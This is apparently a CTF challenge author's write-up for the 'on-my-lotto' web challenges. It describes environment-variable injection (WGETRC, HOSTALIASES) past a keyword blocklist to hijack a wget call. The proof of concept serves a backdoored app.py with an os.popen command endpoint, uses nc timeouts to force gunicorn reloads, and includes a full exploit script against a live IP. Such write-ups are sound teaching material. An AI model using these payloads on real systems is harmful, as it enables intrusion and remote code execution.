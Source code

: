 # web-on-my-lotto&revenge-EH

## Something

Due to poor consideration, this question may not bring a better experience to you. I'm really sorry. I want to explain something to you. After the first challenge was solved in unintented way, I thought about many ways for the revenge challenge, such as putting `wgetrc` in the blacklist, or locking the attachment with the flag of the first challenge. However, in order not to disclose the solution of the first challenge, I finally chose not to ban the `wgetrc`, but limited the way to obtain the flag, only by rce. But also due to some problems such as permission management, so that the use of `wgetrc` can also solve the revenge challenge. I'm sorry for that, but I did learn a lot from the unintented writeup. Next, I will restore my known unintented and intented solutions, hoping to bring you new knowledge. :)

## Unintented writeup

### on-my-lotto

* Use `WGETRC` to set `http_proxy` proxy to your own server, download a file like forecast file, and you can get the flag.

* Use `PATH` to  let `lotto_result.txt` save to another path and app get `lotto_result.txt` is string `result`. You can get the flag by uploading a `result` string.

### on-my-lotto-revenge

* Use `WGETRC` to set `http_proxy` and `output_documen`, cover the local wget application, and then use wget to complete RCE.

* Use `WGETRC` to set `http_proxy` and `output_documen`, write SSTI in folder `templates/`, then use SSTI get RCE.

## Intented writeup

According to the attachment, you can set up a website running environment locally, according to the source code `app.py`, when the uploaded `forecast.txt` file content are same as `lotto_result.txt`, you can get the flag. But generate `lotto_result.txt` uses the `secrets` library, which uses a safe random number generation method. Theoretically, there is no risk of being predicted.

It is found that you can run and input an environment variable during lotto guessing, and the environment variable will be passed to `os.system('wget --content-disposition -N lotto')`, but the environment variable will pass through `safe_check` function check.

```
def safe_check(s):
    if 'LD' in s or 'HTTP' in s or 'BASH' in s or 'ENV' in s or 'PROXY' in s or 'PS' in s: 
        return False
    return True
```

Some common methods of using environment variables have been forbidden. By browsing the Linux environment variable document` http://www.scratchbox.org/documentation/general/tutorials/glibcenv.html `In the Network Settings, it is found that `HOSTALIASES` can set the hosts loading file of the shell. The hosts file can  can be uploaded by using the `/forecast` route, and the request sent by `wget --content-disposition -N lotto` to lotto can be forwarded to our own domain name, such as the following hosts file.

```
# hosts
lotto mydomain.com
```

At the same time, it is noted that the parameter `--content-disposition -N` is added to the wget request, indicating that the saved file name of the request will be determined by the file name specified by the service provider, and the original file can be overwritten. Then we can  provide a file download function in our own domain. Set the returned file name to `app.py`, refer to POC

```
from flask import Flask, request, make_response
import mimetypes

app = Flask(__name__)

@app.route("/")
def index():

    r = '''
from flask import Flask,request
import os


app = Flask(__name__)
@app.route("/test", methods=['GET'])
def test():
    a = request.args.get('a')
    a = os.popen(a)
    a = a.read()
    return str(a)

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
'''

    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=app.py'
    return response



if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
```

At this time, you will find that the `app.py` has been covered, but it can't directly RCE, because the website uses gunicorn deployment, `app.py` will not be loaded in real time in case of change. However, gunicorn uses a `pre forked worker` mechanism. When a worker times out, gunicorn will restart the worker, and the POC of the worker timeout is as follows


```
# exploit.sh
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000
```

Final worker reload `app.py`, you can complete RCE and read flag. Refer to the complete POC as follows:

```
# exp.py

import requests
import os
import time
import subprocess

s = requests.session()

base_url = 'http://124.223.208.221:53000/'
url_upload = base_url + 'forecast'
proxies = {
    'http': 'http://127.0.0.1:8080'
}

r = s.post(url=url_upload, proxies=proxies, files={"file":("hosts", open('hosts', 'rb'))})
print(r.text)

url_env = base_url + 'lotto'
data = {
    'lotto_key': 'HOSTALIASES',
    'lotto_value': '/app/guess/forecast.txt'
}
r = s.post(url=url_env, data=data)

subprocess.Popen('./exploit.sh', shell=True)
# os.system('./exploit.sh')
for i in range(1, 53):
    print(i)
    time.sleep(1)

while True:
    url_shell = base_url + 'test?a=env'
    print(url_shell)
    r = s.get(url_shell)
    print(r.text)
    if '*ctf' in r.text:
        print(r.text)
        break
```
